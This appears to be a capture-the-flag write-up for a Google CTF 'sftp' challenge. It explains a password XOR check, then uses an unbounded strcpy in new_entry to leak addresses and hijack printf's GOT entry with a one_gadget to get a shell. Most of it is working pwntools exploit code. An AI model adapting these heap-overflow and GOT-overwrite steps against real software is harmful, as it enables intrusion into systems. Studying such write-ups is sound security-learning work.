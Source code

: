 # Introduction
This poc only use one vulnerability in the function `new_entry` to get the shell.
The copy of name can bypass the length limitation of name field.
```c
  #define name_max 20
  ...
  *child = malloc(sizeof(entry));
  (*child)->parent_directory = parent;
  (*child)->type = INVALID_ENTRY;
  strcpy((*child)->name, name);
```
# Login
After running the binary we are shown what looks like a standard ssh login. We have to calculate the password to get in.
```
The authenticity of host 'sftp.google.ctf (3.13.3.7)' can't be established.
ECDSA key fingerprint is SHA256:+d+dnKGLreinYcA8EogcgjSF3yhvEBL+6twxEc04ZPq.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'sftp.google.ctf' (ECDSA) to the list of known hosts.
c01db33f@sftp.google.ctf's password:
```
The password is calculated with `xor`, and finally compared with `0x8DFA`. It can be solved by angr or z3, even by yourself.
Finally I figure out one of the passwords is `\x77\x10\x10\x10\x1d`.
```c
  if ( !(unsigned int)__isoc99_scanf("%15s", &v5) )
    return 0LL;
  v3 = _IO_getc(stdin);
  LOWORD(v3) = v5;
  if ( !v5 )
    return 0LL;
  v4 = 0x5417;
  do
  {
    v3 ^= v4;
    ++v0;
    v4 = 2 * v3;
    LOWORD(v3) = *v0;
  }
  while ( (_BYTE)v3 );
  result = 1LL;
  if ( (_WORD)v4 != 0x8DFAu )
    return 0LL;
```
# Leak the address of entry
After login the sftp, we can get the source can in `src/sftp.c`. As mentioned before, we find the function `new_entry` can set up an entry whose name length longger than `name_max`.
According to the `entry struct` and `link_entry struct`, we find that the entry address can be leaked by symlinking a directory/file.
```python
p.recvuntil('sftp> ')
p.sendline('symlink /home/c01db33f /home/c01db33f/'+'a'*20)
p.recvuntil('sftp> ')
p.sendline('ls')
p.recvuntil('a'*20)
addr = u64(p.recv(4)+'\x00'*4)
```
```c
struct entry {
  struct directory_entry* parent_directory;
  enum entry_type type;
  char name[name_max];
};
...
struct link_entry {
  struct entry entry;
  struct entry* target;
};
```
To get the base address of program, we should get the `parent_directory` of the `/home/c01db33f` entry.
# Leak any address content
To leak any address content, we also use the function `new_entry`.
We find that when the number of child is bigger than `0x10`, it will do realloc, and double the child number.
```c
directory_entry* parent = find_directory(path);
  entry** child = NULL;
  for (size_t i = 0; i < parent->child_count; ++i) {
    if (!parent->child[i]) {
      child = &parent->child[i];
      break;
    }
  }

  if (!child) {
    directory_entry* new_parent = realloc(parent, sizeof(directory_entry) + (parent->child_count * 2 * sizeof(entry*)));
    if (parent != new_parent) {
      update_links((entry*)parent, (entry*)new_parent);
      parent = new_parent;
    }

    for (size_t i = 0; i < parent->child_count; ++i) {
      parent->child[i]->parent_directory = parent;
    }

    child = &parent->child[parent->child_count];
    parent->child_count *= 2;
  }
  ```
So we can make a directory with a long name. The name has to cover 17 childs, and end with the `address-12`.
Then make 17 directories under that directory. The content can be leaked by the command `ls`.
So we can leak the address of program and libc.
  ```c
  struct directory_entry {
  struct entry entry;

  size_t child_count;
  struct entry* child[];
};
```
```python
def leak(addr):
	p.recvuntil('sftp> ')
	p.sendline('mkdir '+'b'*164+p64(addr-12))
	p.recvuntil('sftp> ')
	p.sendline('cd '+'b'*20+'\x10')
	for i in range(0,17):
		p.recvuntil('sftp> ')
		p.sendline('mkdir '+str(i))
	p.recvuntil('sftp> ')
	p.sendline('ls')
	p.recvuntil('16\n')
	addr = p.recv(6)+'\x00'*2
```
# Got hijacking
Now we have the address of program and libc. To get the shell, we can hijack the got.
How to overwrite the Got?
* With the command `put`, we can upload a file whose length is longger than `sizeof(file_entry)`. 
```c
struct file_entry {
  struct entry entry;

  size_t size;
  char* data;
};
```
* Leak the data address in the file_entry
```python
p.recvuntil('sftp> ')
p.sendline('symlink fake_file '+'d'*20)
p.recvuntil('sftp> ')
p.sendline('ls')
p.recvuntil('d'*20)
put_file = u64(p.recv(4)+'\x00'*4)
print hex(put_file)
fake_file = u64(leak(put_file+40)[0:4]+'\x00'*4)
print hex(fake_file)
```
* With the method of leaking, make a directory include the `data` as a child. And leak the directory address.
```python
p.recvuntil('> ')
p.sendline('cd /home/c01db33f')
p.recvuntil('sftp> ')
p.sendline('mkdir '+'e'*164+p64(fake_file))
p.sendline('symlink '+'e'*20+'\x10 '+'c'*20)
p.recvuntil('sftp> ')
p.sendline('ls')
p.recvuntil('c'*20)
dir_addr = u64(p.recv(4)+'\x00'*4)
print hex(dir_addr)
```
* Rewrite the uploaded file as a fake file_entry. The `data` of fake file_entry is the address of got(printf).
```python
fake_entry = p64(dir_addr) + p64(0x6161616100000002) + p64(0)*2 + p64(16) + p64(base+0x2050b0)
p.recvuntil('sftp> ')
p.sendline('put fake_file')
p.sendline('48')
p.send(fake_entry)
```
* Make 17 directoryies, and rewrite the fake file with one_gadget address(Got hijacking).
```python
p.recvuntil('sftp> ')
p.sendline('cd '+'e'*20+'\x10')
for i in range(0,17):
	p.recvuntil('sftp> ')
	p.sendline('mkdir '+str(i))
p.recvuntil('sftp> ')
p.sendline('ls')

p.recvuntil('sftp> ')
p.sendline('put aaaa')
p.sendline('8')
p.send(p64(one_gadget))
```

